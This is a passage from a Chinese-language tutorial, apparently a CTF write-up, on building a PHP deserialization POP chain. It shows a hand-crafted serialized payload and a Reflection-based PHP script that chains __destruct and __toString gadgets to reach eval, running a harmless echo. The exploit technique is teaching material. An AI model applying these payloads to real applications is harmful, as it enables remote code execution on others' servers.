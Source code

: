 1、将 GadgetOne\Adders 的 $x 设置为一个新的 GadgetThree\Vuln 对象。
2、当 GadgetTwo\Echoers 被销毁，__destruct 方法会尝试输出 GadgetThree\Vuln 对象。这会触发 GadgetThree\Vuln 的 __toString 方法，如果满足三个WAF检查，eval 函数将执行我们的命令。

**这里就教大家一手干货。可以看到这几个类存在namespace和private/protected属性变量，在很多教程中都教大家手动构建序列化字符串，类似：**

```
$serializedVuln = 'O:15:"GadgetThree\Vuln":4:{s:4:"waf1";i:1;s:20:"' . "\0" . '*' . "\0" . 'waf2";s:4:"\xde\xad\xbe\xef";s:19:"' . "\0" . 'GadgetThree\Vuln' . "\0" . 'waf3";b:0;s:3:"cmd";s:19:"echo \'Hello, World!\';";}';

```
即拼接'\0'在两端来设置private属性，但事实上有**更简洁优美的写法**。看PHP官方文档你会发现更有趣的方法，参考下面的payload:

```php
<?php

require_once 'GadgetOne/Adders.php';
require_once 'GadgetThree/Vuln.php';
require_once 'GadgetTwo/Echoers.php';

use GadgetOne\Adders;
use GadgetThree\Vuln;
use GadgetTwo\Echoers;

$vuln = new Vuln();
$vuln->cmd = "echo 'Hello, World!';";
$vuln->waf1 = 1;

// 使用PHP的反射API来设置protected和private属性
$reflector = new ReflectionObject($vuln);
$waf2 = $reflector->getProperty('waf2');
$waf2->setAccessible(true);
$waf2->setValue($vuln, "\xde\xad\xbe\xef");

$waf3 = $reflector->getProperty('waf3');
$waf3->setAccessible(true);
$waf3->setValue($vuln, false);

$adders = new Adders($vuln);

$echoers = new Echoers();

// 使用PHP的反射API来设置protected属性
$reflector = new ReflectionObject($echoers);
$klass = $reflector->getProperty('klass');
$klass->setAccessible(true);
$klass->setValue($echoers, $adders);

// 删除对象以调用__destruct()
unset($echoers);
?>

```
我添加了注释，大家可以参考注释理解。这里我们执行的命令是echo 'Hello, World！'。
